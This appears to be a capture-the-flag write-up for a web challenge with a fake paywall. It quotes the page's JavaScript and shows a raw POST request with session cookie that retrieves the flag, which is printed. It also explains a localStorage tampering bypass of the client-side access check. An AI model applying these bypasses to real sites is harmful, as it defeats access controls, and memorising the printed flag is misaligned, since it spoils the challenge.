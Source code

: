 # Intro
![](../img/AEA.png)

# Information gathering Part 1
Entering the page the user is prompted with a popup / paywall to access the content in the page. None of the button is clickable.  
![](../img/AEA_Adwall.png)

So first step here is to analyze the source code. In the JavaScript source code a function called ```_gtf``` (possible standing for "```get the flag```"). Diving deeper into the functions a endpoint ```/get_flag``` is found. Using the ```fetch``` API to make a ```POST``` request with the ```Content-Type``` header set to ```application/json```. But nothing else seem to be needed to access the the flag object. 
```javascript
const _gtf = function() {
    if (!window._verifyAccess()) return false;
        fetch('/get_flag', {
	        method: 'POST',
            headers: {
            'Content-Type': 'application/json'
            }
        })
    .then(response => response.json())
    .then(data => {
        if (data.flag) {
            document.getElementById('flag-result').textContent = 'Congratulations! The flag is: ' + data.flag;
        } else {
            document.getElementById('flag-result').textContent = 'Error: ' + data.error;
        }
    })
    .catch(error => {
        console.error('Error:', error);
        document.getElementById('flag-result').textContent = 'Error retrieving the flag. Please try again.';
    });
}
```

# Attack Part 1
Making a ```POST``` request to the ```/get_flag``` endpoint with the header mentioned in the code.  
Request:  
```http
POST /get_flag HTTP/1.1
Host: 64.225.103.251:5007
Cookie: session=eyJzZXNzaW9uX2lkIjoiMDk5MDA0MzQtZjNjNy00MzFiLWE2ZTQtYzhkYTVlMTViMTM2Iiwic3RhcnRfdGltZSI6MTc0NjExNjU0M30.aBOfvw.HDtWmbob0XAlyclvGZg6a-ncxmU
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://black-pyramid.appsec.nu:8000/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type': 'application/json
```


Response:  
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:31:07 GMT
Content-Type: application/json
Content-Length: 45
Connection: keep-alive

{"flag":"O24{scr1b3_0f_7h3_h1dd3n_p4pyru5}"}
```

# Information gathering Part 2
Another JavaScript snippet found in the source code for the client tells that two "items" is stored in localStorage of the browser named ```userRank``` and ```papyrusUnlocked```.
```javascript
(function() {
    const _ur = "userRank";
    const _pu = "papyrusUnlocked";

    window._checkAccess = function() {
        const a = localStorage.getItem(_ur);
        const b = localStorage.getItem(_pu);

        const validOptions = ['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
        const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
                
        if (validRanks.indexOf(a) >= 0 && b === 'true') {
            document.getElementById('adwall').style.display = 'none';

            Array.from(document.querySelectorAll('.blurred-content'))
                .forEach(function(el) { 
                    el.classList.remove('blurred-content'); 
                });
                    
            const flagSection = document.querySelector('.flag-container');
                if (flagSection) flagSection.style.pointerEvents = 'auto';
        }
    };
})();
```


The function looks for two keys ```userRank``` and ```papyrusUnlocked```
And the valid options for a user are:
```javascript
['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
```


But the only valid ranks for access to the content are set in this array.  
Valid ranks for access: ```['scribe', 'royal_scribe', 'pharaoh']``` 
```javascript
const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
```


And this if statement checks if the users rank is within the approved "range" and that the key ```papyrusUnlocked``` is set to ```true```. And if both keys are set to the approved values "hides" the ```adwall``` element and removes the ```.blurred-content``` from the ```class``` attribute of every element in the ```el``` variable.  
```javascript
if (validRanks.indexOf(a) >= 0 && b === 'true') {
                    document.getElementById('adwall').style.display = 'none';
                    
                    Array.from(document.querySelectorAll('.blurred-content'))
                         .forEach(function(el) { 
                             el.classList.remove('blurred-content'); 
                         });
                    
                    const flagSection = document.querySelector('.flag-container');
                    if (flagSection) flagSection.style.pointerEvents = 'auto';
                }
```


So by setting theses to keys to the approved values in the localStorage the user could bypass the paywall / adwall.  

![](../img/AEA_Solved.png)